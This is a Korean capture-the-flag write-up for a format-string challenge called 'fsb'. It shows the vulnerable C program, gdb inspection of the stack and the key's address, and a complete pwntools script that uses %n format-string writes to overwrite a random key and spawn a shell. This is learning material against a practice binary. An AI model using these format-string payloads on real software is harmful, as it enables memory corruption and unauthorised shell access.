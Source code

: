 ```yaml
---
sort: 7
---
```


# fsb

```tip
그림이 작아서 잘 안보이면 그림을 새창에서 여세요.
```

home 디렉토리에 fsb.c에 소스코드가 있다.

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);

        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

`/dev/urandom`을 이용해 key를 random값으로 채운 후, pw와 비교해서 똑같으면 shell을 실행시켜주는 코드이다.<br>
random값을 우리가 때려맞출 수 없기 때문에 pw를 입력하기 전에 fsb를 사용할 수 있게 해줬다.<br>
fsb로 key를 원하는 값으로 조진 후에 pw에 조진 값을 넣으면 될 것 같다.<br><br>
key길이가 8byte이기 때문에 `%hn`을 이용해 2byte씩 4번 조지면 될 것으로 여겨진다.<br>

key는 전역변수이기 때문에 data영역에 저장이 되어있을 것이고, aslr이 적용되지 않았기 때문에 고정된 주소값을 가지게 된다.<br>
main함수에 `read(fd, &key, 8)`부분을 확인하면 된다.

```
(gdb) x/gx 0x804a060
0x804a060 <key>:        0x0000000000000000
```

key의 주소는 `0x804a060`이다.<br>
fsb를 이용해서 key값을 잘 조작해서 풀면 될 것 같다.

```
   0x08048676 <+322>:   call   0x8048460 <strtoull@plt>
   0x0804867b <+327>:   mov    %eax,%edx
   0x0804867d <+329>:   sar    $0x1f,%edx
   0x08048680 <+332>:   mov    %eax,-0x30(%ebp)
   0x08048683 <+335>:   mov    %edx,-0x2c(%ebp)
```
그런데 웃긴 사실은, pw에 입력값이 온전하게 저장되는 것이 아니다.<br>
edx에 strtoull의 결과값의 상위 4byte가 들어가고 eax에 하위 4byte가 들어가는데, edx가 eax로 덮어씌워지고나선, 31번 arithmetic right shift를 한다. 즉, edx는 eax의 MSB로 채워진다는 소리이다.<br>
따라서 소스코드와는 다르게 동작하는 부분이 존재하게 되고, 결론적으로 key값의 상위 4byte는 하위 4byte의 MSB로 채워져야 한다는 소리이다.<br>
그래서 상위 4byte에는 0을 넣었고, 하위 4byte에는 대충 MSB가 0이 되도록 했다.<br>
`char*** pargv = &argv; char*** penvp = &envp;` 부분을 이용해 fsb의 함수 인자가 저장되는 위치를 알 수 있기 때문에 해당하는 부분에 key의 상위 4byte주소와 하위 4byte주소를 넣은 뒤, key를 조질것이다.<br><br>

```
Give me some format strings(1)
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
804a100 64 0 0 0 0 0 0 8048870 0 0 ffbab008 ffbacfe9 ffb9acb0 ffb9acb4 0 0 ffbaaf08 8048791 0 0 0 0 0 0

(gdb) x/4wx $ebp
0xffb9aca8:     0xffbaaf08      0x08048791      0x00000000      0x00000000
```

stack memory가 어떻게 생겼는지 알아보기위해 대충 %x 엄청 넣고 돌려봤다.<br>
ebp부분도 저렇게 출력시켜보니, 0x08048791이 return address인 것을 알 수 있다.<br>
그리고 return address의 주소는 0xffb9acac인 것을 알 수 있다.<br>
따라서 pargv와 penvp에는 0xffb9acb0과 0xffb9acb4가 저장되어있을 것이다.<br>
따라서 이것을 잘 활용하여 key를 조지면 될 듯 하다.<br>

```python
from pwn import *

p = process('/home/fsb/fsb')
p.recvline()

# 0x804a060을 fsb함수의 첫번째 argument자리에 입력하기 위해 0x804a060 byte를 출력한 후 pargv값을 이용
p.sendline('%134520928x%14$n')
p.recvline()
p.recvline()
# 0x804a064를 fsb함수의 두번째 argument자리에 입력하기 위해 0x804a064 byte를 출력한 후 penvp값을 이용
p.sendline('%134520932x%15$n')
p.recvline()
p.recvline()
# key 상위 4byte에 0 넣기
p.sendline('%21$n')
p.recvline()
p.recvline()
# key 하위 4byte에 8 넣기
p.sendline('%8x%20$n')
p.recvline()
p.recvline()
p.sendline('8')

p.interactive()
```

왠진 모르겠는데, key 상위 4byte에 0넣는 것과 key 하위 4byte에 8넣는 것의 순서를 바꾸면 segmentation fault가 뜬다.... 이 부분에 대해선 나중에 시간날 때 더 살펴봐야겠다..


```tip
## 알게 된 점

fsb
```